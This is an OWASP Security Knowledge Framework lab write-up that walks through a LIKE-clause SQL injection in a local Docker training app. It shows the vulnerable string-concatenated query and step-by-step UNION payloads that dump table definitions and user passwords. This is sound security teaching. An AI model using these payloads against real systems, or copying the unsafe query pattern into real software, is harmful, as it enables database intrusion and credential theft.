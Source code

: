 # KBID 156 - SQLI \(Like\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-like
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ing_primary_logo.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](.gitbook/assets/sqli-like-1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-like-2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute("SELECT UserName, email FROM users WHERE UserName LIKE '%"+username+"%' ORDER BY UserId")
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](.gitbook/assets/sqli-like-3.png)

```text
http://localhost:5000/home/Admin%'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-like-4.png)

```text
http://127.0.0.1:5000/home/Admin%' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](.gitbook/assets/sqli-like-5.png)

```text
http://localhost:5000/home/Admin%' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](.gitbook/assets/sqli-like-6.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](.gitbook/assets/sqli-like-7.png)

```text
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](.gitbook/assets/sqli-like-8.png)

```text
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](.gitbook/assets/sqli-like-9.png)

```text
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)

